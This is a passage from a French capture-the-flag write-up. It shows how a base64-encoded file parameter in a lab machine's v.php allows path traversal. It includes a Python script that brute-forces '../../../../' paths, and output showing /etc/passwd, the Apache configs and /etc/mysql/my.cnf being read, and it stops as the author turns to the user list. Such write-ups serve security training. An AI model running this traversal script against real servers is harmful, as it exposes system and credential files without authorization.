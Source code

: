 Cette URL citée retourne un message 404 en ascii art.

Une fois décodé, le base64 correspond à `ascii1.txt`, fichier que l'on retrouve via énumération sous `/ascii/letras/`. On a donc une faille d'inclusion potentielle ou au moins e directory traversal.

Dans une telle situation, pas de choix, il nous faux coder un petit script car les outils existants ne vont pas nous permettre d'encoder le paramètre à la volée.

```python
import sys
from base64 import b64encode
import requests

sess = requests.session()
with open(sys.argv[1], "rb") as fd:
    for line in fd:
        line = line.strip()
        if not line:
            continue
        line = b"../../../../" + line
        url = f"http://192.168.56.87/v.php?a={b64encode(line).decode()}"
        response = sess.get(url) 
        if response.status_code != 500:
            print(f"Inclusion of {line.decode()} possible. URL {url}")
```

On accède bien aux fichiers mais ceux-çi ne sont pas très intéresants car on ne peut pas y injecter des données de quelque façon que ce soit.

```shellsession
$ python3 brute_param.py wordlists/files/Linux-files.txt
Inclusion of ../../../..//etc/passwd possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9wYXNzd2Q=
Inclusion of ../../../..//etc/group possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9ncm91cA==
Inclusion of ../../../..//etc/hosts possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9ob3N0cw==
Inclusion of ../../../..//etc/motd possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9tb3Rk
Inclusion of ../../../..//etc/issue possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9pc3N1ZQ==
Inclusion of ../../../..//etc/apache2/apache2.conf possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9hcGFjaGUyL2FwYWNoZTIuY29uZg==
Inclusion of ../../../..//etc/apache2/ports.conf possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9hcGFjaGUyL3BvcnRzLmNvbmY=
Inclusion of ../../../..//etc/apache2/sites-available/default possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9hcGFjaGUyL3NpdGVzLWF2YWlsYWJsZS9kZWZhdWx0
Inclusion of ../../../..//etc/init.d/apache2 possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9pbml0LmQvYXBhY2hlMg==
Inclusion of ../../../..//etc/mysql/my.cnf possible. URL http://192.168.56.87/v.php?a=Li4vLi4vLi4vLi4vL2V0Yy9teXNxbC9teS5jbmY=
```

Un petit tour sur la liste des utilisateurs :

